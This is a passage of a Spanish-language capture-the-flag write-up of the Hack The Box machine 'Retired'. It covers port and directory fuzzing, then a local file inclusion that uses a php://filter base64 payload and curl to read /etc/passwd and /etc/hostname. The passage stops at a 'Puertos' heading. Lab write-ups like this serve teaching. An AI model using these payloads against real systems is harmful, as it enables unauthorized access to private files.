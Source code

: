 # 10.10.11.154 - Retired
![Retired](https://user-images.githubusercontent.com/96772264/213869676-8cef5005-ac7b-45a2-9745-78ff28d10f9a.png)

------------------------
**Disclaimer**: esta maquina catalogada como media por htb, pero que deberia ser hard, debido a su complejidad uve que tirar del writeup 
de [ippsec](https://www.youtube.com/watch?v=1MDqn1kBHQM). Aun asi me ha servido como aprendizaje y al poder entender todo el proceso lo he explicado
para que quede mas claro que el agua.


# Part 1: Enumeración
Puertos abiertos -> 22(ssh), 80(http)
```console
└─$ whatweb http://10.10.11.154/
HTTPServer[nginx], ->  RedirectLocation[/index.php?page=default.html], nginx
Bootstrap, HTML5, HTTPServer[nginx], IP[10.10.11.154], Script, Title[Agency - Start Bootstrap Theme], nginx

# Fuzzing rutas PHP
└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://10.10.11.154/FUZZ.php
000000001:   302        0 L      0 W        0 Ch        "index"

# Fuzzing subdirectorios
└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://10.10.11.154/FUZZ/
000000277:   403        7 L      9 W        146 Ch      "assets"
000000536:   403        7 L      9 W        146 Ch      "css"
000000939:   403        7 L      9 W        146 Ch      "js"

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://10.10.11.154/FUZZ.html
000000026:   200        188 L    824 W      11414 Ch    "default"
000000902:   200        72 L     304 W      4144 Ch     "beta"
```
La url es 10.10.11.154/index.php?page=default.html
![retired1](https://user-images.githubusercontent.com/96772264/213868928-460b7621-ca15-4788-8f68-901e55fdc29a.PNG)

----------------------------
# Part 2: LFI

```console
http://10.10.11.154/index.php?page=default.html -> default.html
http://10.10.11.154/index.php?page=default.html/../../../../../etc/passwd -> nada
http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
```
Una vez tenemos como explotar el LFI podemos obtener mucha información del host:
```
# Nombre del dominio:
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/etc/hostname |  base64 -d
retired

# Usarios
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd |  base64 -d | grep "sh" | awk '{print $1}' FS=":" | tr "\n" "," | sed "s/,/, /g"
root, sshd, vagrant, dev

# Puertos
```